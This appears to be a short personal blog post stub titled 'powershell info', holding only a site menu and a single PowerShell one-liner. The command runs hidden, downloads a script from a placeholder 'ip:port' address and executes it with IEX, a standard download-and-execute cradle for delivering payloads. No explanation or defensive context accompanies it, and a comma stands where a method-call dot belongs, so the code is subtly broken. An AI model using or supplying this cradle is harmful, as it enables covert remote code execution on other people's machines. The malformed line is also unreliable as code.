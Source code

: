 ```yaml
---
layout: post
title: "Lillian Warner, powershell info"
date: 2017-06-23
---
```

<title>{{ page.title }}</title>
<nav>
	<ul>
		<li><a href="/">Home</a></li>
	        <li><a href="/about">About</a></li>
        	<li><a href="/projects">Projects</a></li>
        	<li><a href="/blog">Blog</a></li>
		<li><a href="/contact">Contact Me</a></li>
	</ul>
</nav>
something like:
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://ip:port/file'))"
